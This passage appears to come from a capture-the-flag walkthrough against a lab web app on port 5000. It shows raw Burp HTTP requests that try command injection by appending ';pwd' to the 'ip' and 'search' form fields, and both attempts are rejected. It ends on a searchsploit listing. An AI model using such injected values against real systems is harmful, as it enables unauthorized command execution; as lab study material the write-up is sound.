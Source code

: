 
We will use CyberChef URL Encode/Decode function, where `;` is `%3B`.
```
POST / HTTP/1.1
Host: 10.129.72.251:5000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.129.72.251:5000/
Content-Type: application/x-www-form-urlencoded
Content-Length: 24
Connection: close
Upgrade-Insecure-Requests: 1

ip=127.0.0.1%3Bpwd&action=scan
```
Unforunately, this didn't work and we get an error `invalid ip`.

Another attempt at running another function SPLOITS.
```
POST / HTTP/1.1
Host: 10.129.72.251:5000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.129.72.251:5000/
Content-Type: application/x-www-form-urlencoded
Content-Length: 34
Connection: close
Upgrade-Insecure-Requests: 1

search=werkzeug&action=searchsploit
```
And we change it on BurpSuite.
```
POST / HTTP/1.1
Host: 10.129.72.251:5000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.129.72.251:5000/
Content-Type: application/x-www-form-urlencoded
Content-Length: 34
Connection: close
Upgrade-Insecure-Requests: 1

search=werkzeug%3Bpwd&action=searchsploit
```
This time however, we get an error `stop hacking me - well hack you back`.

## 4. Port 5000 HTTP Attack Attempt 2
With clues from online, it turns out that I needed more SearchSploits.
```
ippoeug@kali:~$ searchsploit nmap
------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                                                                                      |  Path
------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
Android - binder Use-After-Free of VMA via race Between reclaim and munmap                                                          | android/dos/46357.txt
```